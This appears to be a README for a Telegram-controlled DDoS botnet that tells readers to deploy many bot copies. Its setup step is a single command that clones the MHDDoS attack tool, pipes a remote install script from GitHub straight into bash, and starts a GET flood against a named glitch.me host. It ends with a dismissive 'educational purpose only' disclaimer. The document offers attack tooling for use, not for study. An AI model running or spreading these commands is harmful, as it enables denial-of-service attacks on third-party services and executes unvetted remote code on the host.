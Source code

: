 # DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! 
<br><br>
## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
``` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET panpan-bot1.glitch.me 1 100 mhddos_proxy/list 100 5 ```

<br><br>

The installation tutorial is not finished, if you have any problems I can help you.

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.
